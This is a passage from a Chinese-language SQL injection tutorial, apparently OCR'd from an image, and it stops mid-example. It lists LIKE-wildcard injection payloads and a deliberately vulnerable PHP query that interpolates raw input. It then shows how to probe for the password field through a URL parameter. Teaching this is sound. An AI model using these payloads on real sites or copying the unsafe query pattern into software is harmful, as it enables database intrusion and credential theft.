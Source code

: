 }
?>
```

一般程序都是这样写的，如果缺乏变量检查，就可以改写变量，达到"注入"的目的，尽管没有危害，当输入"__","._","%"等类似的关键字时，会把数据库中的所有记录都取出来，如果在提交表单:

```
%' ORDER BY articleid--+
%' ORDER BY articleid#
__' ORDER BY articleid--+
__' ORDER BY articleid#


SELECT  * FROM aritcle WHERE title LIKE '%%' ORDER BY articleid--+%' ORDER BY title DESC

SELECT * FROM article WHERE title LIKE '%__' ORDER BY articleid#%' ORDER BY title DESC
```


二.查询字段

1.本表查询

```
<?php
$servername = "localhost";
$dbusername = "root";
$dbpassword = "";
$dbname = "injection";
mysql_connect($servername,$dbusername,$dbpassword) or die ("Connection failed!");
$sql = "SELECT * FROM user WHERE username='$username'";
$result = mysql_db_query($dbname,$sql);
$row = mysql_fetch_array($result);
if (!$row) {
　　echo "No record!";
　　echo "<p>SQL Query:$sql<p>";
　　exit;
}
echo "The ID you query：$row[userid]\n";
echo "<p>SQL Query:$sql<p>";
?>
```

当提交的用户名为真时，就会正常返回用户的ID，如果为非法参数就会提示相应的错误，由于是查询用户资料，可以大胆猜测密码就存在这个数据表里：

```
SELECT * FROM user WHERE username='$username' AND password='$password' 
```

相同的就是当条件为真时，就会给出正确的提示信息，如果构造出后面的AND条件部分，并使这部分为真，那目的也就达到了，还是利用刚才建立的user数据库
```
http://localhost/injection/user.php?username=aaron' and password='password

SELECT * FROM user WHERE username='aaron' AND password='password'
